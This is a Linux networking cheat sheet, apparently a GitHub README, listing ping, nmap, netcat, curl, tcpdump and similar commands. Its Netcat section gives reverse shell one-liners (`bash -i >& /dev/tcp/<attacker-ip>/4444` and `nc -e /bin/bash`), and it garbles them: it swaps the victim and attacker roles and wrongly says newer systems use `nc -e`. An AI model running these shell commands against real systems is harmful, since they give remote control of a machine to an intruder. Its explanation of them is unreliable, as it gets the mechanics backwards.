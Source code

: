 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234`
- **Connect to host**:  `nc <hostname or IP> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100`
- **Send file**:  
  1. Receiver opens port and preps redirect:  `nc -l 12345 > received_file.txt`  
  2. Sender connects and redirects file to receiver ip:  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  1. Victim opens port:  `nc -lvp 4444`  
  2. Attacker:  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  Note: newer systems use `nc -l -p 1234 -e /bin/bash`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
